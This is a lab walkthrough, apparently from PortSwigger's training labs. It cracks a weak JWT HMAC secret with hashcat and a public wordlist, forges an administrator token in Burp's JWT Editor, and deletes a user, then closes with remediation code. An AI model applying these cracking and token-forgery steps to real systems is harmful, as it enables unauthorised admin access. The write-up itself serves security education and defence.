

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔨 Log in as `wiener` / `peter` — capture the JWT — copy it and brute-force the signing secret using **hashcat** with the jwt-secrets wordlist — secret is `secret1`
- 🔑 Base64-encode the cracked secret in Burp Decoder — create a **New Symmetric Key** in JWT Editor Keys and replace the `k` value with the encoded secret
- ✏️ In Burp Repeater, change `sub` to `"administrator"` — click **Sign** with the symmetric key — select **"Don't modify header"** — the token is now legitimately re-signed
- 🗺️ Send `GET /admin` with the forged token — the server's own signature check passes — admin panel loads
- 🗑️ Delete the user `carlos` → lab solved!

---

## 🧠 **Concept Recap**

> **JWT authentication bypass via weak signing key** is fundamentally different from Labs 1 and 2. The server's signature verification is working correctly — it will reject any token with a bad signature. The problem is the secret used to sign tokens is so weak (`secret1`) that it appears in common wordlists and can be cracked by hashcat in seconds. Once the secret is known, the attacker can sign any token they want with a valid signature. The server accepts it because, cryptographically, the signature is genuine — just made by the attacker, not the server.

### 📊 **Labs 1–2 vs Lab 3 — Three Different JWT Failures**

||**Labs 1 & 2**|**Lab 3 — Weak Secret (this lab)**|
|---|---|---|
|**Signature verified?**|❌ No — skipped entirely|✅ Yes — server checks properly|
|**Attack method**|Remove or ignore signature|Crack the secret → re-sign|
|**What the attacker forges**|An unsigned / unverified token|A fully valid, correctly signed token|
|**Why server accepts it**|Verification disabled or bypassed|Signature is cryptographically correct|
|**Tool needed**|Burp Repeater only|hashcat + JWT Editor|
|**Root cause**|Missing/bypassable verification|Weak secret — in public wordlists|

```js
Key insight:
  → Labs 1 & 2: the server's verification logic is the problem
  → Lab 3: the server's verification logic is fine — the secret is the problem
  → A correctly verified token signed with a cracked secret is indistinguishable
    from a legitimate token — the server has no way to tell the difference
  → The only fix is using a secret strong enough to make cracking infeasible
```

**The full attack flow:**

```js
Log in as wiener → capture JWT in Burp
         ↓
GET /admin with original token → blocked (sub: wiener)
         ↓
Copy JWT → run hashcat with jwt-secrets wordlist
  hashcat -a 0 -m 16500 <JWT> jwt.secrets.list
  → Cracks in seconds: JWT:secret1
         ↓
Burp Decoder: Base64-encode "secret1" → c2VjcmV0MQ==
JWT Editor Keys: New Symmetric Key → replace k → "c2VjcmV0MQ=="
         ↓
Repeater → Payload: sub → "administrator"
         → Sign → select symmetric key → Don't modify header → OK
         → Token re-signed with real secret → valid signature
         ↓
GET /admin → server verifies signature ✅ → sub: administrator → access granted ✅
         ↓
DELETE carlos → lab solved ✅
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Install JWT Editor Extension**

1. 🖱️ In Burp → **Extensions** → **BApp Store**
2. 🖱️ Search for **JWT Editor** → click **Install**

```js
Why this extension:
  → Adds a "JSON Web Token" tab in Repeater for easy claim editing
  → Adds a "JWT Editor Keys" tab for managing signing keys
  → Provides a one-click Sign button that re-signs the token with a chosen key
  → Without it, you'd need to manually re-sign outside Burp
```

---

### 🔧 **Step 2 — Log In and Capture the JWT**

1. 🌐 Click **"Access the lab"**
2. 🔌 Ensure **Burp Suite is running** and proxying traffic
3. 🖱️ Log in with `wiener` / `peter`
4. 🖱️ In Burp → **Proxy → HTTP history** → find the post-login `GET /my-account`
5. 🖱️ Right-click → **"Send to Repeater"**
6. 🖱️ In the Cookie header, **copy the full JWT value** — paste it somewhere safe:

```http
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIiLCJleHAiOjE2NDgwMzcxNjR9.xyz...
```

```js
The JWT has three base64url-encoded parts separated by dots:
  eyJhbGci...   ← header:    {"alg":"HS256","typ":"JWT"}
  eyJzdWIi...   ← payload:   {"sub":"wiener","exp":...}
  xyz...         ← signature: HMAC-SHA256(header.payload, secret)

We need the entire token string for hashcat — copy everything including the dots.
```

---

### 🔧 **Step 3 — Confirm You're Blocked from /admin**

1. 🖱️ In Repeater, change the path to `/admin` → click **"Send"**

```js
Expected result:
  → "Admin interface only accessible if logged in as the administrator"
  → sub: "wiener" → not admin → blocked
  → This confirms we need sub: "administrator" with a valid signature
  → Simply editing the payload won't work — the signature would be invalid
```

---

### 🔧 **Step 4 — Brute-Force the Secret with hashcat**

1. 🖱️ Download the jwt-secrets wordlist:

```bash
wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list
```

2. 🖱️ Run hashcat in JWT mode (`-m 16500`), dictionary attack (`-a 0`):

```bash
hashcat -a 0 -m 16500 <YOUR-JWT> jwt.secrets.list
```

```js
What hashcat does:
  → Takes the JWT (header.payload.signature)
  → For each word in the wordlist, computes: HMAC-SHA256(header.payload, word)
  → Compares the result against the token's actual signature
  → If they match → that word IS the secret

Speed: hashcat tests millions of candidates per second on modern hardware.
"secret1" is in the wordlist → found almost instantly.
```

3. 🖱️ hashcat outputs the result as `JWT:secret`:

```
eyJhbGci...xyz:secret1
```

```js
If you run hashcat again and see no output, add --show to display cached results:
  hashcat -a 0 -m 16500 <JWT> jwt.secrets.list --show

Secret confirmed: secret1
```

---

### 🔧 **Step 5 — Base64-Encode the Secret in Burp Decoder**

1. 🖱️ In Burp → **Decoder** tab
2. 🖱️ Paste `secret1` in the input field
3. 🖱️ Click **"Encode as"** → **"Base64"**
4. 🖱️ Copy the result: `c2VjcmV0MQ==`

```js
Why Base64-encode it?
  → JWK (JSON Web Key) format stores symmetric key bytes as base64url-encoded values
  → The JWT Editor Keys tab expects the k field in this format
  → "secret1" in bytes → base64 → "c2VjcmV0MQ=="
```

---

### 🔧 **Step 6 — Create a Symmetric Signing Key in JWT Editor**

1. 🖱️ In Burp → **JWT Editor Keys** tab → click **"New Symmetric Key"**
2. 🖱️ In the dialog, click **"Generate"** — a JWK is created:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "some-random-base64-value"
}
```

3. 🖱️ Replace the value of `"k"` with the base64-encoded secret from Step 5:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "c2VjcmV0MQ=="
}
```

4. 🖱️ Click **"OK"** to save

```js
What this does:
  → Creates a signing key object that JWT Editor can use
  → The k field contains the raw secret bytes (base64-encoded)
  → When we click Sign in Repeater, it will use this key
  → The resulting signature will be identical to what the server produces
    because we're using the exact same secret
```

---

### 🔧 **Step 7 — Modify the JWT Payload**

1. 🖱️ Back in Repeater → click the **JSON Web Token** tab (added by JWT Editor)
2. 🖱️ In the **Payload** section, change `"sub"` from `"wiener"` to `"administrator"`:

```json
{
  "sub": "administrator",
  "exp": 1648037164
}
```

```js
Don't click Sign yet — make all payload changes first, then sign once.
Every Sign operation overwrites the previous signature.
```

---

### 🔧 **Step 8 — Sign the Token with the Cracked Secret**

1. 🖱️ At the bottom of the **JSON Web Token** tab, click **"Sign"**
2. 🖱️ Select the symmetric key you saved in Step 6
3. 🖱️ Ensure **"Don't modify header"** is checked ✅
4. 🖱️ Click **"OK"**

```js
What just happened:
  → JWT Editor computed: HMAC-SHA256(header.payload, secret1)
  → It replaced the signature section of the cookie with the new valid signature
  → The token now has sub: "administrator" AND a cryptographically valid signature
  → The server's verification will pass — it cannot distinguish this from a real token

"Don't modify header" — why this matters:
  → Without it, JWT Editor might add a kid field or change the alg
  → We want the header to stay as-is: {"alg":"HS256","typ":"JWT"}
  → Any header change would invalidate the signature
```

---

### 🔧 **Step 9 — Access the Admin Panel**

1. 🖱️ Ensure the path is `/admin` → click **"Send"**

```js
Expected result:
  → 200 OK — admin panel loads ✅
  → Server verified the signature using secret1 → signature matches ✅
  → Server read sub: "administrator" → granted admin access ✅
  → The server was fooled legitimately — the token is cryptographically valid
```

---

### 🔧 **Step 10 — Delete carlos**

1. 🖱️ In the admin panel response, find the delete endpoint:

```
/admin/delete?username=carlos
```

2. 🖱️ Update the path in Repeater:

```http
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=<your-forged-signed-jwt>
```

3. 🖱️ Click **"Send"**

```js
Result:
  → carlos deleted ✅
  → Lab solved! 🎉
```

---

## 🎉 **Lab Solved!**

```
✅ Captured JWT — copied full token for hashcat
✅ hashcat cracked the secret: secret1
✅ Base64-encoded secret → created symmetric key in JWT Editor
✅ Changed sub → "administrator" → signed with cracked key
✅ Server verified signature — passed — admin panel loaded
✅ Deleted user carlos
✅ Lab complete!
```

---

## 🔗 **Complete Attack Chain**

```r
1. Log in as wiener → capture JWT → copy full token
2. GET /admin → blocked (sub: wiener, valid signature but wrong user)
3. hashcat -a 0 -m 16500 <JWT> jwt.secrets.list → cracks: secret1
4. Burp Decoder: "secret1" → Base64 → "c2VjcmV0MQ=="
5. JWT Editor Keys: New Symmetric Key → k = "c2VjcmV0MQ==" → Save
6. Repeater → JSON Web Token tab → sub: "administrator"
7. Sign → select symmetric key → Don't modify header → OK
8. GET /admin → signature valid → admin panel loads
9. GET /admin/delete?username=carlos → lab solved
```

**hashcat + JWT Editor. The server's verification was never bypassed — it was satisfied.**

---

## 🧠 **Deep Understanding**

### Why a cracked secret is worse than no verification

```js
Labs 1 & 2 — signature bypass:
  → Attacker bypasses verification entirely
  → Defence: enable proper signature verification → attack fails immediately
  → Easy to detect: server logs show unsigned/malformed tokens

Lab 3 — cracked secret:
  → Attacker produces a genuine, valid signature
  → The server's verification passes — no error, no anomaly in logs
  → Defence: you cannot detect the attack by looking at tokens alone
  → The only defence is preventing the crack in the first place: strong secret

A strong secret makes cracking computationally infeasible:
  → "secret1" (7 chars, in wordlist) → cracked in < 1 second
  → 32 random bytes (256-bit) → 2^256 possible values → never crackable with any hardware
```

### How hashcat cracks JWT secrets

```js
hashcat mode 16500 is specifically for JWT (HS256, HS384, HS512):

  For each candidate word in the wordlist:
    1. Compute: HMAC-SHA256( base64url(header) + "." + base64url(payload), candidate )
    2. base64url-encode the result
    3. Compare with the signature from the original JWT
    4. Match → candidate is the secret ✅

Speed on a modern GPU: 100–500 million candidates per second
"secret1" is at position ~15 in the jwt-secrets wordlist
Time to crack: milliseconds

The wordlist used (wallarm/jwt-secrets) contains:
  → Common passwords re-used as JWT secrets
  → Default secrets from JWT library documentation
  → Secrets copy-pasted from tutorials and Stack Overflow answers
  → "your-256-bit-secret", "secret", "password", "changeme", etc.
```

### What the JWK `k` field contains

```js
JWK (JSON Web Key) is a standard format for representing cryptographic keys.
For symmetric keys (kty: "oct"):
  → k = the raw key bytes, base64url-encoded

"secret1" → UTF-8 bytes: [0x73, 0x65, 0x63, 0x72, 0x65, 0x74, 0x31]
           → base64-encoded: "c2VjcmV0MQ=="

The JWT Editor extension uses this JWK to perform:
  HMAC-SHA256( message, base64url_decode(k) )

Which is exactly what the server does to verify tokens:
  HMAC-SHA256( message, secret1_bytes )

Identical inputs → identical output → server accepts the forged signature.
```

---

## 🐛 **Troubleshooting**

```js
Problem: hashcat shows no output / "Exhausted" with no match
→ Add --show flag — hashcat may have cached the result from a prior run:
  hashcat -a 0 -m 16500 <JWT> jwt.secrets.list --show
→ Ensure the full JWT was copied (all three parts including dots)
→ Verify the wordlist path is correct

Problem: hashcat returns "Token length exception"
→ The JWT may have been truncated when copying — copy it again from Burp
→ JWT must be the full string: HEADER.PAYLOAD.SIGNATURE (no spaces, no newlines)

Problem: Sign button in Repeater doesn't update the Cookie header
→ Ensure you're in the "JSON Web Token" tab, not the raw request tab
→ After clicking OK, switch to the raw request and verify the Cookie value changed
→ The signature section (third part of the JWT) should be different after signing

Problem: GET /admin still returns 403 after signing
→ Confirm sub is "administrator" (exact spelling, lowercase a)
→ Confirm "Don't modify header" was checked — header alg must stay HS256
→ Check the Cookie header in the request — ensure it contains the re-signed token

Problem: Decoder shows different base64 than expected
→ Ensure you encoded only "secret1" with no trailing space or newline
→ Base64 of "secret1" is always: c2VjcmV0MQ==
→ If you got something different, re-paste the secret carefully
```

---

## 💬 **In One Line**

🔨 The server's JWT verification was working correctly — but the signing secret (`secret1`) was so weak it appeared in a public wordlist and hashcat cracked it in milliseconds — giving the attacker the ability to forge perfectly valid tokens with any claims. That's **JWT Authentication Bypass via Weak Signing Key** — correct verification, catastrophically weak secret.

---
---

## 🔒 **How to Fix It**

```js
# Priority 1 — Use a cryptographically strong, randomly generated secret
# 32 bytes (256 bits) of randomness — never a dictionary word

import secrets

# ✅ Generate once, store securely (env var / secrets manager)
JWT_SECRET = secrets.token_urlsafe(32)
# Example: "Drmhze6EPcv0fN_81Bj-nA8tX2kQq1v7fZ-rC4MdL3Q"

# ❌ Never use:
JWT_SECRET = "secret"          # in every wordlist
JWT_SECRET = "secret1"         # in every wordlist
JWT_SECRET = "your-256-bit-secret"  # copy-pasted from JWT.io docs
```

```js
# Priority 2 — Load the secret from environment variables, never hardcode it

import os

JWT_SECRET = os.getenv('JWT_SECRET')

if not JWT_SECRET:
    raise RuntimeError("JWT_SECRET environment variable is not set")

if len(JWT_SECRET.encode()) < 32:
    raise RuntimeError("JWT_SECRET is too short — minimum 32 bytes required")
```

```js
# Priority 3 — Switch to RS256 (asymmetric) — eliminates the shared-secret problem entirely
# Private key signs (server only), public key verifies (can be shared freely)
# An attacker who gets the public key cannot forge signatures

import jwt
from cryptography.hazmat.primitives.asymmetric import rsa

private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)
public_key = private_key.public_key()

# Sign
token = jwt.encode(payload, private_key, algorithm='RS256')

# Verify
decoded = jwt.decode(token, public_key, algorithms=['RS256'])

# With RS256: cracking is not a concept — the private key is never shared
# There is nothing for an attacker to brute-force
```

```js
# Priority 4 — Validate the role from the database even after a valid JWT is verified
# A forged token with a cracked secret will pass signature verification
# A database check catches it: wiener's DB record still says role = "user"

@app.route('/admin')
def admin_panel():
    payload = jwt.decode(token, JWT_SECRET, algorithms=['HS256'])  # signature verified
    user = db.get_user(payload['sub'])

    if not user or user.role != 'admin':
        abort(403)   # DB says not admin — even a perfectly signed token is rejected

    return render_admin_panel()
```

---
